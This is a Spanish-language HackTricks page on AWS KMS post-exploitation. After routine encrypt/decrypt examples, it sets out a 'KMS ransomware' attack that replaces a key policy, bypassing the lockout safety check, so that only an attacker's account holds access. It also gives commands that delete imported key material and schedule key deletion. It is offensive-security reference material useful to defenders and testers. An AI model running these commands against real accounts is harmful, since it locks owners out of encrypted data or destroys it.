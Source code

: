 # AWS - Post Explotación de KMS

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## KMS

Para más información, consulta:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encriptar/Desencriptar información

* Utilizando una clave **simétrica**
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Utilizando una clave **asimétrica**:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Si recibes el error 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' al intentar realizar kms decrypt intenta usar **`--ciphertext-blob file://`** en lugar de **`fileb://`**.

El uso de **`file://`** te brinda la conveniencia de usar archivos escritos en tu codificación preferida al usar la CLI.
En las versiones 1.6.3 y superiores de la CLI, tienes acceso a otra forma de pasar el contenido de un archivo a la CLI, **`fileb://`**. Funciona de manera similar a **`file://`**, pero en lugar de leer el contenido del archivo como texto, se lee como binario.

En la mayoría de los casos, **`file://`** satisfará tu caso de uso para pasar el contenido de un archivo como entrada. Sin embargo, hay algunos casos en los que **`fileb://`** debe usarse para pasar el contenido del archivo como binario en lugar de como texto.
Lee más en AWS aquí: [AWS Blog - Mejores prácticas para parámetros de archivos locales](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### Ransomware de KMS

Un atacante con acceso privilegiado sobre KMS podría modificar la política de claves de KMS y **conceder acceso a su cuenta sobre ellas**, eliminando el acceso otorgado a la cuenta legítima.

Entonces, los usuarios de la cuenta legítima no podrán acceder a ninguna información de ningún servicio que haya sido encriptado con esas claves, creando un ransomware fácil pero efectivo sobre la cuenta.

{% hint style="warning" %}
Ten en cuenta que las **claves administradas por AWS no se ven afectadas** por este ataque, solo las **claves administradas por el cliente**.

También ten en cuenta la necesidad de usar el parámetro **`--bypass-policy-lockout-safety-check`** (la falta de esta opción en la consola web hace que este ataque solo sea posible desde la CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Ten en cuenta que si cambias esa política y solo das acceso a una cuenta externa, y luego desde esta cuenta externa intentas establecer una nueva política para **devolver el acceso a la cuenta original, no podrás hacerlo**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Ransomware Genérico de KMS

#### Ransomware Global de KMS

Hay otra forma de llevar a cabo un Ransomware Global de KMS, que implicaría los siguientes pasos:

* Crear una nueva **clave con un material de clave** importado por el atacante
* **Reencriptar datos antiguos** encriptados con la versión anterior con la nueva.
* **Eliminar la clave de KMS**
* Ahora solo el atacante, que tiene el material de clave original, podría descifrar los datos encriptados

### Destruir claves
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Ten en cuenta que AWS ahora **impide que las acciones anteriores se realicen desde una cuenta cruzada:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
